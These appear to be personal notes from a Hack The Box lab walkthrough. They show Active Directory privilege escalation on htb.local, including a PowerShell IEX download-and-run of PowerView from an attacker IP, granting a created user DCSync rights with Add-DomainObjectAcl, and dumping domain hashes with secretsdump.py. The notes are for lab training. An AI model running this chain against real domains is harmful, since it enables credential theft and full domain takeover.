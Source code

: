 ![[Pasted image 20241212182612.png]]

New user has permissions to modify the DACL on the domain htb.local. IE we can grant ourselves any privilege we want on the object. 

![[Pasted image 20241212182818.png]]
Grab #powerview from GitHub

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

Serve up PowerView using #pythonhttpserver

`python3 -m http.server 80`

![[Pasted image 20241212183613.png]]

Download onto remote host 

`IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/PowerView.ps1')`

![[Pasted image 20241212183809.png]]

Enter password for user we just created

`$pass = convertto-securestring 'penny' -AsPlainText -Force`

`$cred= New-Object System.Management.Automation.PSCredential('rachel', $pass)`

Then run recommended command from Bloodhound for adding domain object acl

`Add-DomainObjectAcl -Credential $cred -TargetIdentity htb.local -Rights DCSync`

![[Pasted image 20241212184231.png]]
Ran into issue with powersploit version
![[Pasted image 20241212184408.png]]
Solution: grabbing powersploit from the `dev` branch instead

![[Pasted image 20241212184542.png]]
Tool to dump everything #secretsdump.py

`secretsdump.py` is part of #impacket 

On kali box run:

`./secretsdump.py htb.local/rachel:penny@10.10.10.161`



Bloodhound command was wrong so modifying it to

`Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity rachel -Rights DCSync`

Re-running `secretsdump.py` and got an administrator password hash

![[Pasted image 20241212185605.png]]

Running #crackmapexec using admin's hash
